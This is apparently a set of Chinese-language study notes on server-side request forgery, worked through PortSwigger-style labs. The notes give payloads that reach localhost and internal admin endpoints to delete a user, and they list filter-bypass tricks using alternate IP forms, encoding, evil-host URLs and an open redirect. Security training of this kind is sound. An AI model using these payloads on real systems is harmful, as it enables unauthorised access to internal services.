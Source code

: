 # 是什么

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

# lab

## Common SSRF attacks

1. Lab: Basic SSRF against the local server

把stockApi的参数替换为http://localhost/admin，遍历接口

![](SSRF(服务端请求伪造)_files/1.jpg)


下面payload删除carlos：

- http://localhost/admin/delete?username=carlos

2. Lab: Basic SSRF against another back-end system

探测IP

![](SSRF(服务端请求伪造)_files/1.jpg)

status=200的IP

![](SSRF(服务端请求伪造)_files/2.jpg)

soled

payload为：

- stockApi=http://192.168.0.46:8080/admin/delete?username=carlos

![](SSRF(服务端请求伪造)_files/3.jpg)


## Circumventing common SSRF defenses（绕过一般的 SSRF 防御系统）

- 使用 127.0.0.1 的其他 IP 表示法，例如 2130706433、017700000001 或 127.1。
- 注册解析到 127.0.0.1 的自己的域名。为此，您可以使用 spoofed.burpcollaborator.net。
- 使用 URL 编码或大小写变化混淆被拦截的字符串。
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

1. Lab: SSRF with blacklist-based input filter

用```http://127.1/```代替```http://localhost/```
用```%2561```替换字母a绕过防护

![](SSRF(服务端请求伪造)_files/1.jpg)


###白名单绕过

- 使用@字符。如：https://expected-host:fakepassword@evil-host
- 使用#字符。如：https://evil-host#expected-host
- 利用 DNS 命名层次结构 ，如：https://expected-host.evil-host
- URL编码绕过
- 联合以上各种技术绕过

### 通过开放重定向绕过 SSRF 过滤器

如果参数中包含一个重定向的参数，也可以利用，比如：

- /product/nextProduct?currentProductId=6&path=http://evil-user.net
利用开放重定向漏洞来绕过 URL 过滤器，并利用 SSRF 漏洞如下

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

这个 SSRF 漏洞之所以能够工作，是因为应用程序首先验证提供的 stockAPI URL 是否位于允许的域上

2. Lab: SSRF with filter bypass via open redirection vulnerability

payload为：
```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

![](SSRF(服务端请求伪造)_files/1.jpg)


## Blind SSRF vulnerabilities(盲注SSRF)

